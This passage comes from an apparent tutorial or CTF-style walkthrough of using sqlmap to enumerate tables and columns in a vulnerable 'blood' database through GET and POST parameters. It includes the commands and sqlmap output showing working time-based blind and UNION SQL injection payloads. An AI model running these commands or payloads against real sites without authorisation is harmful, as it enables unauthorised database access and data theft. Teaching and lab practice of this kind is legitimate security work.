 Now that we have the databases, let's extract tables from the database blood.

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`

**Using POST based Method**

`sqlmap -r req.txt -p blood_group -D blood --tables`

`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`

Once we run these commands, we should get the tables.

```
           
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+

```

Once we have available tables, now let’s gather the columns from the table blood_db.

**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`
